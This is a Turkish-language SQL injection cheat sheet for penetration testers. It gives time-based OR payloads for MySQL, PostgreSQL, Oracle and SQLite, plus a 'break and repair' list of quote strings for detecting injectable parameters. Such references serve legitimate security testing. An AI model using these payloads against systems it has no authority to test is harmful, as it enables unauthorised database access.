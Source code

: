 ## İçindekiler

### Anahtar

Bazı payload'lar, kullanılmadan önce belirli değerlerle değiştirilmesi gereken yer tutucular içerir. Yer tutucular `<>` sembolleriyle belirtilmiştir ve büyük harflerle yazılmıştır (ör. `<START>`). Yer tutucunun tamamını (<> dahil) değiştirin.

## OR `<true>` (OR 1=1) Kullanımından Kaçınma

CTF'ler dışında, OR `<true>` ifadelerini içeren enjeksiyonlardan (ör. `' OR 1=1 -- -`) kaçınılmalıdır.

Bir "geçerli değer" bulunduğunda, SQL enjeksiyonları yaparken bir OR `<true>`'e gerek kalmaz. Geçerli bir değer, uygulamada "pozitif" bir sonuç döndüren bir değerdir (ör. birden fazla sonuç döndüren bir arama terimi veya bir kaynağa karşılık gelen bir ID).

---

### "Güvenli" OR Tabanlı Payload'lar

Bazı durumlarda "güvenli" OR tabanlı payload'lar kullanılabilir. Bu payload'lar, sorgu sonuçlarının yalnızca ilk satırını döndürmelidir.

| **Variant**  | **Payload**  | **Credit**  |
|--------------|--------------|-------------|
| **MySQL**    | `' OR IF((NOW()=SYSDATE()),SLEEP(1),1)='0` | Coffin |
| **PostgreSQL**| `' OR (CASE WHEN ((CLOCK_TIMESTAMP() - NOW()) < '0:0:1') THEN (SELECT '1'||PG_SLEEP(1)) ELSE '0' END)='1` | Tib3rius |
| **MSSQL**    | *No Known Payload* | - |
| **Oracle**   | `' OR ROWNUM = '1` | Richard Moore |
| **SQLite**   | `' OR ROWID = '1` | Tib3rius |

---

## Break & Repair Yöntemi

Temel SQL enjeksiyonlarını bulmak için güvenilir bir yöntem.

1. Geçerli bir değere tek tırnak ekleyerek ifadeyi "kırın" (ör. `username=admin'`).
2. Aşağıdaki "onarım" seçeneklerini sırayla deneyerek, biri orijinal cevabı döndürüyorsa enjeksiyonun mümkün olduğunu anlayabilirsiniz:

| **Onarım**      |
|------------------|
| `' '`           |
| `'||'`          |
| `'+'`           |
| `' AND '1'='1`  |
| `' -- -`        |
